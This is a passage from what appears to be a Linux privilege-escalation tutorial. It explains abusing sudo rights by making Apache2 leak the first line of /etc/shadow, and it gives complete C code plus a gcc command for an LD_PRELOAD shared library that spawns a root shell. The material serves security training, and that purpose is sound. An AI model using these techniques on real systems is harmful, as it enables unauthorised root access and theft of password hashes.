 https://gtfobins.github.io/ is a valuable source that provides information on how any program, on which you may have sudo rights, can be used. 

**Leverage application functions**:

Some applications will not have a known exploit within this context. Such an application you may see is the Apache2 server.

In this case, we can use a "hack" to leak information leveraging a function of the application. As you can see below, Apache2 has an option that supports loading alternative configuration files (`-f` : specify an alternate ServerConfigFile). 

Loading the `/etc/shadow` file using this option will result in an error message that includes the first line of the `/etc/shadow` file. 

**Leverage LD_PRELOAD**:

On some systems, you may see the LD_PRELOAD environment option. 

![](https://i.imgur.com/gGstS69.png)

LD_PRELOAD is a function that allows any program to use shared libraries. This [blog post](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) will give you an idea about the capabilities of LD_PRELOAD. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.

The steps of this privilege escalation vector can be summarized as follows;

   - Check for LD_PRELOAD (with the env_keep option)
   - Write a simple C code compiled as a share object (.so extension) file
   - Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file


The C code will simply spawn a root shell and can be written as follows;

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

![](https://i.imgur.com/HxbszMW.png)

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.
